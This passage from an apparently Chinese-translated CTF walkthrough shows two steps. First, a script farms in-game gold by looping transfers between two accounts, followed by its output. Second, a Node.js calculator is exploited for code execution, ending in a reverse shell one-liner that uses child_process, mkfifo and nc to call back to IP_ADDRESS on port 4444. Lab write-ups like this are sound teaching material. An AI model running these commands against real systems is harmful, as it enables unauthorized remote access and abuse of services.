 ```
  print("{} turn to send gold...".format(user_1))
  values = userGoldAndCookie(user_1, pass_1)
  gold_needed = values[1]
  sendGold(user_2, values[0], values[1])
  counter += 1
 else:
  print("{} turn to send gold...".format(user_2))
  values = userGoldAndCookie(user_2, pass_2)
  gold_needed = values[1]
  sendGold(user_1, values[0], values[1])
  counter += 1
```

**运行这个脚本后，我终于获得了足够的金币来购买高级功能。**

```
John turn to send gold...
Current Gold Amount for User John: 16000
Sending 16000 gold to user Bob
16000 gold has been sent to user Bob!
Success!! We have all the gold we need ;)
```

## **Node.js 远程代码执行(RCE)**

**购买高级功能后，我可以访问一个显示以下消息的新页面。**

> **这是我们惊人的高级功能:一个计算器！这么有用！**
> 
> **输入计算，例如 1+1，它会告诉你答案！**
> 
> **计算**

**因为我已经知道 Node.js 正在被使用，所以我尝试使用 Node.js 编程语言来执行 RCE:**

```
process.cwd()
```

**这是可行的，我们可以在服务器上执行代码。**

**![](img/28fe86b22733f6be17fe88c3e886e078.png)**

**我使用下面的 Node.js 代码创建了一个反向 shell:**

```
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDRESS 4444 >/tmp/f')
```
